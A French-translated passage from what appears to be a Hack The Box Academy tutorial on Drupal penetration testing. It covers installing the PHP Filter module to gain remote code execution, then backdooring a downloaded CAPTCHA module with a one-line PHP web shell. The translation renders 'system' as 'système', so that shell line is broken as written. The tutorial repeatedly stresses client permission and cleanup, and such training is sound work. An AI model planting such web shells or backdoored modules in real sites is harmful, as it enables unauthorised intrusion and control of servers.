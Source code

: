 À partir de la version 8, le module [Filtre PHP](https://www.drupal.org/project/php/releases/8.x-1.1) n'est pas installé par défaut. Pour tirer parti de cette fonctionnalité, nous devrions installer le module nous-mêmes. Étant donné que nous modifierions et ajouterions quelque chose à l'instance Drupal du client, nous voudrions peut-être d'abord vérifier avec eux. Nous commencerons par télécharger la version la plus récente du module sur le site Web de Drupal.

```
dsgsec@htb[/htb]$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz

```

Une fois téléchargé, accédez à `Administration` > `Rapports` > `Mises à jour disponibles`.

Remarque : L'emplacement peut varier en fonction de la version de Drupal et peut se trouver dans le menu Étendre.

![](https://academy.hackthebox.com/storage/modules/113/install_module.png)

À partir de là, cliquez sur `Parcourir` sélectionnez le fichier dans le répertoire dans lequel nous l'avons téléchargé, puis cliquez sur `Installer`.

Une fois le module installé, nous pouvons cliquer sur `Contenu` et créer une nouvelle page de base, comme nous l'avons fait dans l'exemple Drupal 7. Encore une fois, assurez-vous de sélectionner `Code PHP` dans le menu déroulant `Format de texte` .

Avec l'un ou l'autre de ces exemples, nous devons tenir notre client informé et obtenir la permission avant d'apporter ce genre de modifications. De plus, une fois que nous avons terminé, nous devons supprimer ou désactiver le module `Filtre PHP` et supprimer toutes les pages que nous avons créées pour obtenir l'exécution de code à distance.

* * * * *

Téléchargement d'un module de porte dérobée
-----------------------------

Drupal permet aux utilisateurs disposant des autorisations appropriées de télécharger un nouveau module. Un module backdoor peut être créé en ajoutant un shell à un module existant. Les modules sont disponibles sur le site Web drupal.org. Choisissons un module tel que [CAPTCHA](https://www.drupal.org/project/captcha). Faites défiler vers le bas et copiez le lien pour le tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

Téléchargez l'archive et extrayez son contenu.

```
dsgsec@htb[/htb]$ wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
dsgsec@htb[/htb]$ tar xvf captcha-8.x-1.2.tar.gz

```

Créez un shell Web PHP avec le contenu :

Code : php

```
<?php
système($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>

```
